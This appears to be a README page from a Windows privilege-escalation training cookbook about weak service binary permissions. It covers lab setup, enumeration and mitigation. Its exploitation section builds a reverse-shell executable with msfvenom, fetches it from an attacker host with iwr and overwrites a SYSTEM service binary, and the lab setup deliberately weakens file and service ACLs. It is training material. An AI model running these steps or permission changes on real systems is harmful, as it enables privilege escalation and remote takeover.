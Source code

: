 # Weak Service Binary Permissions

[Back to Main](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file#vulnerabilities)

## Table of Contents

- [Weak Service Binary Permissions](#weak-service-binary-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak Service Binary Permissions indicate a vulnerability due to insufficient permissions on service executables. This vulnerability can be exploited by an adversary to modify the service executable, granting unauthorized access or potentially elevating system privileges.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv2\"
```

2) Download the file [Service2.exe](/Lab-Setup-Binary/Service2.exe) to the 'C:\Program Files\CustomSrv2' directory.

3) Grant modify privileges to BUILTIN\Users for the service folder:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /grant BUILTIN\Users:M
```

4) Install the new Service:

```
New-Service -Name "Vulnerable Service 2" -BinaryPathName "C:\Program Files\CustomSrv2\Service2.exe" -DisplayName "Vuln Service 2" -Description "My Custom Vulnerable Service 2" -StartupType Automatic
```

5) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 2" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
```

Outcome:

![Weak-Service-Binary-Manual-Lab-Setup](/Pictures/Weak-Service-Binary-Manual-Lab-Setup.png)

5) Verify the new service (services.msc):

![Weak-Service-Binary-Manual-Lab-Setup-Verify](/Pictures/Weak-Service-Binary-Manual-Lab-Setup-Verify.png)

6) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 2"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Service Binary Permissions' vulnerability is by using the custom PowerShell script named [WeakServiceBinaryPermissions.ps1](/Lab-Setup-Scripts/WeakServiceBinaryPermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakServiceBinaryPermissions.ps1
```

Outcome:

![Weak-Service-Binary-Script-Lab-Setup](/Pictures/Weak-Service-Binary-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 2"
```

## Enumeration

### Manual Enumeration

To perform manual enumeration of the `Weak Service Binary Permissions` vulnerability, you can use the following steps:

1) Open a command prompt and use the following command to enumerate the permissions of the service binary:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration](/Pictures/Weak-Service-Binary-Manual-Enumeration.png)

2) Use the following command to find out the `START_TYPE` and `SERVICE_START_NAME`:

```
sc qc "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-2](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-2.png)

3) Use the following command to find out the `STATE` and it's attributes:

```
sc query "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Manual-Enumeration-Part-3](/Pictures/Weak-Service-Binary-Manual-Enumeration-Part-3.png)

:information_source: Finally, as you can see: 

- The BUILTIN\Users can modify the Service2.exe.
- The service automatically starts after machine boots.
- The Local System runs the service.
- The service is running.

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Service Binary Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServiceBinaries
```

Outcome:

![Weak-Service-Binary-Tool-Enumeration](/Pictures/Weak-Service-Binary-Tool-Enumeration.png)

## Exploitation

To abuse this vulnerability you should follow these steps:

1) If the service is running and you have permissions to stop it:

```
sc stop "Vulnerable Service 2"
```

Outcome:

![Weak-Service-Binary-Exploitaion-Part-1](/Pictures/Weak-Service-Binary-Exploitaion-Part-1.png)

2) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service2.exe
```

3) Open a listener in your kali machine.

4) Transfer and overwrite the Service2.exe file with the malicious binary:

```
iwr -Uri http://<ip>:<port>/Service2.exe -Outfile C:\Program Files\CustomSrv2\Service2.exe
```

5) Start the service with the following command or reboot the machine:

```
sc start "Vulnerable Service 2"
```

6) Verify the reverse shell on your Kali machine:

![Weak-Service-Binary-Permissions-Reverse-Shell](/Pictures/Weak-Service-Binary-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Service Binary Permissions vulnerabilities, adjust permissions on Service executables initiated through this mechanism. This limits unauthorized access and strengthens security measures:

```
icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(M)
```

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [Access Control Overview Microsoft](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/access-control)
- [Establishing Windows File and Folder Level Permissions by UWEC](https://www.uwec.edu/kb/article/drives-establishing-windows-file-and-folder-level-permissions/)
